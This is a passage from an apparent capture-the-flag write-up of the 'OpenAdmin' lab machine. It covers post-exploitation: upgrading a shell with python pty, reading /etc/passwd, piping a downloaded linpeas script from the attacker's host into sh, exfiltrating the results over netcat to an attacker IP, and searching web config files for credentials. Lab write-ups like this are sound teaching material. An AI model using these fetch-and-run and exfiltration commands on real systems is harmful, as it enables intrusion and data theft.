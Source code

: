 >bash: no job control in this shell  

We can do that easily using python3 :  

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/qwerty.py
python3 /tmp/qwerty.py
```   

I started grabbing important files and in /etc/passwd we see there are a couple interesting users available :  

```
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```  

I tried logging in as them with the **su** command, but we need passwords.  

I went ahead and hosted a local copy of [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases), downloaded & ran it on our victim :  

```bash
HOST:
sudo mv ./linpeas.sh /var/www/html
sudo service apache2 start

VICTIM:
# This command downloads linpeas from my web server, runs it, and outputs to a file /tmp/linpeas.log
curl [My IP]/linpeas.sh | sh > /tmp/linpeas.log
```  

I opted to grab the results file with Netcat, just to have a local copy :  

```bash
My Machine:
nc -l -p 8899 > linpeas.log

OpenAdmin Box:
nc -w 3 10.10.14.42 8899 < /tmp/linpeas.log
```

There are multiple suggestings for priv-esc. but we will come back to that, since www-data does not have enough capability to execute them.  

Oftentimes, if I can get a shell, I think about what the purpose of that user is, as that is where they are likely to have the most permissions.  

If you navigate to www-data's home directory, we end up in /var/www/ which is full of service config files. After going through nearly all of them, I find some important data :  

```bash
cd ~
www-data@openadmin:/var/www/ona/local/config$ cd ~
cd ~
www-data@openadmin:/var/www$ cd ona/local/config
cd ona/local/config
www-data@openadmin:/var/www/ona/local/config$ ls -la
ls -la

total 16
drwxrwxr-x 2 www-data www-data 4096 Nov 21  2019 .
drwxrwxr-x 5 www-data www-data 4096 Jan  3  2018 ..
-rw-r--r-- 1 www-data www-data  426 Nov 21  2019 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21  2019 run_installer
```  
